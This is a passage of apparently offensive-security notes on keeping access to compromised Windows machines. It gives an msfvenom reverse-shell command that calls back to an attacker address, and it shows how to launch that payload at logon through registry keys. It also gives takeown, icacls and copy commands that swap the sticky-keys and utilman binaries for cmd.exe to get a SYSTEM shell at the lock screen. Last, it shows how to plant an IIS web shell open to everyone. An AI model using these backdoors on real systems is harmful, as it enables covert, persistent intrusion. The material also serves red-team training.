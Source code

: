 `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<port> -f exe -o <output file name>` - Create a reverse shell.

Now move the shell to the windows folder in the target machine, then add the location of the executable file to one of the above registry keys with a coma as a saperator.

##### Logon Scripts

The userinit.exe also looks for an environment variable called `UserInitMprLogonScript`.

You can use the reverse shell from the previous method, get it to any folder on the target's machine.

Now create this key under `HKCU\Environment`:

Name: UserInitMprLogonScript
Type: REG_EXPAND_SZ
Data: the location of the payload file

## Backdooring the Login Screen / RDP

##### Sticky Keys

Sticky keys lets you press keys one at a time instead of at the same time, to activate it you can press `SHIFT` 5 times.

You can replace the binary at `C:\Windows\System32\sethc.exe` with a copy of `cmd.exe` than press `SHIFT` 5 times in the lock screen to access CMD with SYSTEM privileges.

`takeown /f C:\Windows\System32\sethc.exe` - Take ownership of the file.
`icacls C:\Windows\System32\sethc.exe /grant <current user>:F` - Grant our current user permission to modify the file.
`copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe` - Replace the Sticky Keys binary with a copy of `cmd.exe`

##### Utilman

A built-in Windows application used to provide Ease of Access options during the lock screen.

The steps are the same as in the previous method but replacing the `utilman.exe` binary instead of the `sethc.exe` binary.

## Persisting Through Existing Services

##### Using Web Shells

`move <web shell file> <webroot directory>` -Move a [web shell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx) to the webroot directory which is by default `C:\inetpub\wwwroot`
`icacls <web shell file> /grant Everyone:F` - Grant permission to the file for everyone if needed.

Now you can access the shell and run commands trough `http://<Machine ip>/<web shell name>`.

The default user in IIS is `iis apppool\defaultapppool` even if it's unprivileged one you can use the [SeImpersonatePrivilege](Windows%20Privilege%20Escalation) to elevate privileges.

##### Using MSSQL as a Backdoor

